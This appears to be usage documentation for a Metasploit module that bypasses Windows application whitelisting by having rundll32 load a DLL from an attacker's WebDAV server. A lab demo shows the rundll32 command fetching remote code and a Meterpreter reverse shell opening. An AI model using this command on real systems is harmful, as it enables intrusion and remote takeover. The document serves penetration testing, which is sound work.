 # Introduction

This module simplifies the rundll32.exe Application Whitelisting Bypass technique

The module creates a webdav server that hosts a dll file. When the user types the provided
rundll32 command on a system, rundll32 will load the dll remotly and execute the provided
export function.

The export function needs to be valid, but the default meterpreter function can be anything.
The process does write the dll to `C:\Windows\ServiceProfiles\LocalService\AppData\Local\Temp\TfsStore\Tfs_DAV`
but does not load the dll from that location. This file should be removed after execution.

The extension can be anything you'd like, but you don't have to use one. Two files will be
written to disk. One named the requested name and one with a dll extension attached.

Please note that there is a slight delay for the target to start making WebDAV requests,
and then getting a session back.

# Demo

```
msf exploit(windows/misc/webdav_delivery) > run
[*] Exploit running as background job 3.

[*] Started reverse TCP handler on 172.16.249.1:4444 
msf exploit(windows/misc/webdav_delivery) > [*] Using URL: http://172.16.249.1:8080/
[*] Server started.
[*] Run the following command on the target machine:
rundll32.exe \\172.16.249.1@8080\ANYTHING,Init
[*] 172.16.249.130   webdav_delivery - GET /ANYTHING
[*] Sending stage (180291 bytes) to 172.16.249.130
[*] Meterpreter session 4 opened (172.16.249.1:4444 -> 172.16.249.130:49219) at 2018-12-12 13:25:06 -0600

msf exploit(windows/misc/webdav_delivery) > sessions

Active sessions
===============

  Id  Name  Type                     Information  Connection
  --  ----  ----                     -----------  ----------
  4         meterpreter x86/windows               172.16.249.1:4444 -> 172.16.249.130:49219 (172.16.249.130)

msf exploit(windows/misc/webdav_delivery) >
```
